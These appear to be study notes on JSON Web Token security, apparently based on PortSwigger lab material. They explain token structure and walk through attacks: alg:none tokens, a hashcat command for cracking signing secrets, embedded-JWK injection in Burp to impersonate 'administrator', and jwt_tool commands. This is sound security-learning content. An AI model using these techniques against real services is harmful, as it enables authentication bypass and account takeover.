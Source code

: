 # Brief

JSON web tokens (JWTs) are a standardized format for sending cryptographically signed JSON data between systems. They can theoretically contain any kind of data, but are most commonly used to send information ("claims") about users as part of authentication, session handling, and access control mechanisms.

Unlike with classic session tokens, all of the data that a server needs is stored client-side within the JWT itself. This makes JWTs a popular choice for highly distributed websites where users need to interact seamlessly with multiple back-end servers.

A JWT consists of **3 parts**: a header, a payload, and a signature. These are each separated by a dot, as shown in the following example:

![[Pasted image 20241024152544.png]]

The header and payload parts of a JWT are just **base64url-encoded** JSON objects. The header contains metadata about the token itself, while the payload contains the actual "claims" about the user. For example, you can decode the payload from the token above to reveal the following claims:

```json
{
    "iss": "portswigger",
    "exp": 1648037164,
    "name": "Carlos Montoya",
    "sub": "carlos",
    "role": "blog_author",
    "email": "carlos@carlos-montoya.net",
    "iat": 1516239022
}
```

In most cases, this data can be easily read or modified by anyone with access to the token. Therefore, the security of any JWT-based mechanism is heavily reliant on the **cryptographic signature**.

## Signature part

The server that issues the token typically generates the signature by **hashing the header** and **payload**. In some cases, they also encrypt the resulting hash. Either way, this process involves a **secret signing key**. This mechanism provides a way for servers to verify that none of the data within the token has been tampered with since it was issued:

* As the signature is directly derived from the rest of the token, changing a single byte of the header or payload results in a mismatched signature.
* Without knowing the server's secret signing key, it shouldn't be possible to generate the correct signature for a given header or payload.

## Particularities

> In other words, a JWT is usually either a JWS or JWE token. When people use the term "JWT", they almost always mean a JWS token. JWEs are very similar, except that the actual contents of the token are encrypted rather than just encoded.

# Attacking JWT

## Aim

JWT attacks involve a user sending modified JWTs to the server in order to achieve a malicious goal. Typically, this goal is to **bypass authentication** and **access controls** by impersonating another user who has already been authenticated.

The **impact** of JWT attacks is usually **severe**. If an attacker is able to create their own valid tokens with arbitrary values, they may be able to escalate their own privileges or impersonate other users, taking full control of their accounts.

### Flawed Signature Verification

For example, consider a JWT containing the following claims:

```json
{
    "username": "carlos",
    "isAdmin": false
}
```

**Changing the parameter "isAdmin" to true : Privilege Escalation.**

JWT libraries typically provide one method for verifying tokens and another that just decodes them. For example, the Node.js library jsonwebtoken has **verify()** and **decode()**. **Occasionally, developers confuse these two methods and only pass incoming tokens to the decode() method. This effectively means that the application doesn't verify the signature at all.**

### Accepting Tokens with No Signature

```json
{
    "alg": "HS256",
    "typ": "JWT"
}
```

**Change the "alg" value to "none". Remove the signature part but leave the trailing dot ".".**

> Even if the token is unsigned, the payload part must still be terminated with a trailing dot.

### Brute-forcing Secret Keys

Some signing algorithms, such as **HS256** (HMAC + SHA-256), use an arbitrary, standalone string as the secret key. Just like a password, it's crucial that this secret can't be easily guessed or brute-forced by an attacker. Otherwise, they may be able to create JWTs with any header and payload values they like, then use the key to re-sign the token with a valid signature.

When implementing JWT applications, **developers sometimes make mistakes** like forgetting to change default or placeholder secrets. They may even copy and paste code snippets they find online, then forget to change a hardcoded secret that's provided as an example. In this case, it can be trivial for an attacker to brute-force a server's secret using a **wordlist of well-known secrets**.

> JWT Wordlist : https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list$

**If the server uses an extremely weak secret, it may even be possible to brute-force this character-by-character rather than using a wordlist.**

#### How to

```bash
hashcat -a 0 -m 16500 $JWT $wordlist
# --show to output the result if you already run it
```

**Then :** Generate another key using JWT Editor Keys on BurpSuite, change the "k" parameter to the base64-encoded secret. Start accessing admin panels.

### Injecting self-signed JWTs via the JWK parameter
- `jwk` (JSON Web Key) - Provides an embedded JSON object representing the key.
- `jku` (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
- `kid` (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching `kid` parameter.

Example of this in the JWT header : 

```json
{
	"kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
	"typ": "JWT",
	"alg": "RS256",
	"jwk": {
		"kty": "RSA",
		"e": "AQAB",
		"kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
		"n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
	}
}
```

Sometimes, misconfigured servers **use any key that's embedded in the jwk parameter** to verify JWT signatures.

#### Exploit
Burp, the [JWT Editor extension](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) provides a useful feature to help you test for this vulnerability:

1. With the extension loaded, in Burp's main tab bar, go to the **JWT Editor Keys** tab.
2. [Generate a new RSA key.](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#adding-a-jwt-signing-key)
3. Send a request containing a JWT to Burp Repeater.
4. In the message editor, switch to the extension-generated **JSON Web Token** tab and [modify](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#editing-jwts) the token's payload however you like.
5. Click **Attack**, then select **Embedded JWK**. When prompted, select your newly generated RSA key.
6. Send the request to test how the server responds.

We have a JWT for our session and we want to impersonate another user : 

```json
eyJraWQiOiI1YjVjN2E3Zi1lNjFjLTQyNjAtODY5Ny04ZDY0NmZmOTI2NWQiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcyOTc4MDUyNSwic3ViIjoid2llbmVyIn0.kbVtgHjMvPEm_iQbtOt6NBYX-4FGSGC21TP1aYAKcewtKRrIUm_edfl_dHC4w0D2vU26Z3_cnvDqazdTnBuuUaj69_C16_RNT9ZdHlWUIpM18KlTpkJEdzAX9JwElXC3rYYCN87pVHMx3Jxy1U8xiYN9MQ7tUhUidbHnRojE4RuiaGtjWyDw60Jht8HTYy6oLBI41e21NX9BvIyfsf_1ALORAR58H5nEV2FkXFJ7FN-iXbECZRDjj3ivqW5DNoqDEgbA_7u9g9QKOv1xVc9D3QCFut2--6O4pL2NwkV8hP66hvwsffH6jsVwbzEUj2nFS5RUn-sHdOlH2fx6HsWXAQ
```

Structure :
```
Token header values:
[+] kid = "5b5c7a7f-e61c-4260-8697-8d646ff9265d"
[+] alg = "RS256"

Token payload values:
[+] iss = "portswigger"
[+] exp = 1729780525    ==> TIMESTAMP = 2024-10-24 16:35:25 (UTC)
[+] sub = "wiener"
```

- We change the value of **sub** to **administrator**
- Attack > Embedded JWK
- Send Request

### Tools

#### JWT Toolkit V2
https://github.com/ticarpi/jwt_tool

```bash
git clone https://github.com/ticarpi/jwt_tool
cd jwt_tool/
python3 -m pip install termcolor cprint pycryptodomex requests
python3 jwt_tool.py $JWT

# Generate JWT with no algorithm (Alg:None)
python3 jwt_tool.py $JWT -a

# Null signature
python3 jwt_tool.py $JWT -n
```

